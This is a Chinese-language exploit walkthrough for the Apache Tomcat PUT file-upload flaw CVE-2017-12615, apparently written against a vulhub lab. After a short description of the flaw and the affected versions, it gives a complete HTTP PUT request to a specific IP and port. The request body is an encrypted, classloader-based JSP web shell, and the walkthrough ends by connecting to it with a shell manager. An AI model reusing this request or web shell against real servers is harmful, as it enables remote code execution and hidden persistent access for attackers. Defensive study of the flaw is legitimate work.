 # Tomcat 任意写入文件漏洞（CVE-2017-12615）by [M2ayill](https://github.com/M2ayill)

## 一、漏洞描述

Apache Tomcat 7.0.0到7.0.79版本中存在远程代码执行漏洞，当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法时，攻击者可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，文件中的代码被服务器执行。

## 二、影响版本

 Apache Tomcat >=7.0.0，<=7.0.79

## 三、利用流程

1 此漏洞对应的名称为 Tomcat 任意写入文件漏洞 (CVE-2017-12615)![avatar](/12615-1.png)
2 访问其如图所示

![avatar](./12615-2.png)
3 直接抓包，修改请求方式为 PUT，并且设置文件名为1.jsp(名字随意)，然后填充 shell(jsp shell即可)文件内容，发送成功后，服务器返回状态码201

![avatar](./12615-3.png)

```
PUT /1.jsp/ HTTP/1.1
Host: 118.193.36.37:29618
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 611

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

4 访问1.jsp,存在

![avatar](./12615-4.png)

5 使用 shell 管理工具连接即可

![avatar](./12615-5.png)

## 参考

https://www.cnvd.org.cn/flaw/show/CNVD-2017-27472

https://vulhub.org/#/environments/tomcat/CVE-2017-12615/
